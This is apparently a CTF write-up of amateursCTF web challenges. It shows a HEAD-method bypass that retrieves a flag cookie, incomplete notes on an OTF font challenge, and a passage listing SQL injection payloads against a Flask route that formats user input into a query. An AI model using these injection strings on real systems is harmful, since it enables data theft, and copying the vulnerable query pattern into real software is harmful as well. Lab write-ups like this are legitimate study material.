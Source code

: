 ## web/denied
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/4ce1ae31-5215-4b63-a718-291dfc484dc5)
- on reaching the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/12e69d4e-1bdd-425f-9f81-c5c5c2a66ed1)
- the given code
```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```
- so we must not use get method
- copied the curl request and made a post
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3758a32d-8118-4002-baf0-3b2d75bebeda)
- the post method is not available
- so we see what options do we have
- we see get,head
- now from this https://reqbin.com/req/c-tmyvmbgu/curl-head-request-example
- we do send a head request
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b8d0bda9-d3c4-4e25-a028-30c5a6b8e025)
```
C:\home\radha> curl http://denied.amt.rs/ -I     
HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Sat, 06 Apr 2024 05:37:48 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
```
- we got a cookie
- use url decoder
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c1be76e1-43d2-4bc7-843b-90b6261f8924)
- we get the flag`amateursCTF{s0_m@ny_0ptions...}`
## web/agile-rut --not completed
- problem
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c962a307-98b8-4f64-a8a4-e8964e8c45b2)
- the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/1afebdb7-57e2-433e-9f85-aada7e3d7793)
- otf file  OpenType font format.
- https://docs.fileformat.com/font/otf/
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/eb110157-b1d8-4fe1-a052-8261aadd37ce)
```
C:\home\radha\Downloads\amertus_ctf\web\agile_rut> head *
OTTO
� CFF Ϋ�p�[GSUBЄ��d�rOS/2px
Qxcmap9�x��4head*Rv��6hhea���$hmtxo��maxphname��D}p-post� ت��_<�3{�3{���+���RhPh��������1�XXXX@  =��R����  "�)5'
�
```
- so type,name descripton
```
uint32	sfntVersion	0x00010000 or 0x4F54544F (‘OTTO’)
```
## web/one-shot
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3504a4c4-81b4-4a62-b96c-c056218cced4)
- sqlite3 https://www.digitalocean.com/community/tutorials/how-to-use-the-sqlite3-module-in-python-3
- in memory sqlite3 https://www.sqlite.org/inmemorydb.html
- support for concurrency https://stackoverflow.com/questions/393554/python-sqlite3-and-concurrency
- https://www.geeksforgeeks.org/python-re-search-vs-re-match/
```
import re
a=input("give id")
while(a!=0):
    if not re.match("[1234567890abcdef]{3}", a):
        print("invalid id")
    else:
        print("valid")
    a=input("give id")
```
- there is a issue with regular expression it is re.match
- so if we give exaclty 16 valid chars followed by anything it just accepts
```
@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."

```
- so here id is user contolled
- i dont see any default tables with table_* in sqlite3
- we need to see what happens` searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]` when table does not exist
- `a%'union select 1/*` in /search gives internal servre err
- `a%'union select "1"/*`
- this does give output so there is sql injection
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/df4d2a1e-53de-4f99-b249-9683cca1866e)
- `a%';union select "1"/*` -internal sever er
- `a%'union select "1" from (DELETE FROM table_{id})/*` -500
- `a%'union select "1" from table_{id}/*` -500
- sqlite_schema
- https://www.sqlite.org/schematab.html
- `a%'union select name from sqlite_schema/*` this does give a lot of info
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ace9ce66-2470-4753-8f09-966567c1c3ac)
- a%'union select password from table_{id}/*
- INSERT INTO table (column1,column2 ,..) VALUES( value1,	value2 ,...)
- `SELECT name 
FROM (
    INSERT INTO mytable1 (col1, col2) 
    VALUES (val1, val2) 
    RETURNING name
) AS inserted_rows;
`
- a%'union select name from (INSERT INTO sqlite_schema(name) VALUES (1729) RETURNING name) /* 
